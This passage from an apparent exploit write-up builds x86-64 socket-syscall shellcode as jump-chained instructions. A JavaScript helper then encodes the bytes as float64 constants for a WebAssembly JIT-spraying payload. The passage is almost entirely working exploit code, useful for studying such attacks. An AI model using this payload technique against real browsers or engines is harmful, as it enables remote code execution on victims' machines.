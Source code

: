 #### socket syscall

```python
make_double(asm('xor rax,rax'))
make_double(asm('xor rdi,rdi'))
make_double(asm('xor rsi,rsi'))
make_double(asm('xor rdx,rdx'))
make_double(asm('xor r8,r8'))
make_double(asm('push 0x2'))
make_double(asm('pop rdi'))
make_double(asm('push 0x1'))
make_double(asm('pop rsi'))
make_double(asm('push 0x6'))
make_double(asm('pop rdx'))
make_double(asm('push 0x29'))
make_double(asm('pop rax; syscall'))
```

- first let's check whether this syscall works correctly

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023223625.png)

- Now we need to convert all these values to floating point values and make a wat code

```js
var bs = new ArrayBuffer(8);
var fs = new Float64Array(bs);
var is = new BigUint64Array(bs);

function ftoi(val) {
  fs[0] = val;
  return is[0];
}

function itof(val) {
  is[0] = val;
  return fs[0];
}

const gen = () => {
  return [
0xA7A7A70FEBC03148n,
0xBFBFBF0FEBFF3148n,
0xD8D8D80FEBF63148n,
0xF2F2F20FEBD23148n,
0x0D0D0D0FEBC0314Dn,
0x2929292910EB026An,
0x464646464611EB5Fn,
0x6464646410EB016An,
0x838383838311EB5En,
0xA3A3A3A310EB066An,
0xC4C4C4C4C411EB5An,
0xE6E6E6E610EB296An,
0x0909090FEB050F58n,
  ];
};

var arr = gen();
console.log(`WAT code ${arr.length}: \n`)
for (let i=0; i < arr.length; i++){
  console.log("f64.const ",itof(arr[i])+"");
}
for (let i=0; i < arr.length-1; i++){
  console.log("drop");
}
```